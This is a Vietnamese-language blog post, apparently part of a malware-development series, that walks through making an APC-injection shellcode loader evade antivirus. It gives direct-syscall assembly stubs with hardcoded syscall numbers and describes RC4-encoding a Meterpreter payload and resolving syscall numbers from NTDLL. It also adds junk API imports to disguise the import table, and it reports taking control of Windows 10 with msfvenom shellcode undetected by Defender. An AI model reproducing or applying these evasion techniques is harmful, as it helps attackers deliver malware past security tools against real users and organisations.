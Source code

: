## Bypass AV
Phần này sử dụng mẫu [APC Injection](https://github.com/vuongle-vigo/MalwareDevTechnique-Blog/tree/main/11-3-2024%20APC%20Injection) đã được đề cập trước đây.
Các kĩ thuật áp dụng cố gắng giảm thiểu tối đa AV phát hiện trên [VirusTotal](https://www.virustotal.com/gui/home/upload).

### Đánh giá mã gốc

Bản gốc sử dụng [Malware Compiling Technique](https://github.com/vuongle-vigo/MalwareDevTechnique-Blog/tree/main/18-3-2024%20Malware%20Compiling), quan sát bảng IAT ta có kết quả sau:
![iat1](images/iat1.png)

Kết quả Virus Total:

![virus1](images/virus1.png)

Mã gốc đã được ẩn CRT và các API không sử dụng trong bảng IAT, tuy nhiên để lộ rõ các API được sử dụng trong APC Injection, Shellcode chưa được mã hóa => Bị phát hiện theo signature.

### Syscalls ASM Code

Kỹ thuật sử dụng: [Syscalls](https://github.com/vuongle-vigo/MalwareDevTechnique-Blog/tree/main/18-3-2024%20Syscalls)

Sử dụng `WinDbg` tìm SSN của Syscall, xây dựng được file `syscall.asm` như sau:

```asm
.code
	SysNtAllocateVirtualMemory proc
		mov r10, rcx
		mov eax, 18h
		syscall
		ret
	SysNtAllocateVirtualMemory endp

	SysNtWriteVirtualMemory proc
		mov r10, rcx
		mov eax, 3Ah
		syscall
		ret
	SysNtWriteVirtualMemory endp

	SysNtProtectVirtualMemory proc
		mov r10, rcx
		mov eax, 50h
		syscall
		ret
	SysNtProtectVirtualMemory endp

	SysNtQueueApcThread proc
		mov r10, rcx
		mov eax, 45h
		syscall
		ret
	SysNtQueueApcThread endp

	SysNtResumeThread proc
		mov r10, rcx
		mov eax, 52h
		syscall
		ret
	SysNtResumeThread endp
end
```
Với kĩ thuật này, kết quả virus total:

![virus2](images/virus2.png)

1 số AV phát hiện là dựa vào Signature của Meterpreter, sử dụng [RC4 Payload Encode](https://github.com/vuongle-vigo/MalwareDevTechnique-Blog/tree/main/30-12-2023%20Payload%20Encryption), kết quả nhận được:

![virus3](images/virus3.png)

### Syscalls Custom SSN Code
Thay thế kĩ thuật syscall bằng mã asm chỉ định ở trên bằng kĩ thuật tìm SSN code trong thư viện NTDLL, sau đó gọi hàm syscall, kết quả được cải thiện đáng kể.

Bảng IAT:

![iat2](images/iat2.png)

![virus4](images/virus4.png)


### Import junk API 
Kiểm tra bảng IAT, việc file thực thi sử dụng 1 lượng ít API cũng khiến nó trở nên khả nghi, tiến hành thêm junk API vào:
```c
unsigned __int64 i = MessageBoxA(NULL, NULL, NULL, NULL);
i = GetLastError();
i = SetCriticalSectionSpinCount(NULL, NULL);
i = GetWindowContextHelpId(NULL);
i = GetWindowLongPtrW(NULL, NULL);
i = RegisterClassW(NULL);
i = IsWindowVisible(NULL);
i = ConvertDefaultLocale(NULL);
i = MultiByteToWideChar(NULL, NULL, NULL, NULL, NULL, NULL);
i = IsDialogMessageW(NULL, NULL);
```

Kết quả:
![virus5](images/virus5.png)


### Loại bỏ API CreateProcess 

![virus6](images/virus6.png)

### Test Windows Defender Runtime

Sử dụng shellcode msfvenom của kali:

![wdf1](images/wdf1.png)

Chiếm được quyển điều khiển của windows 10 mà không bị phát hiện:

![kali1](images/kali1.png)
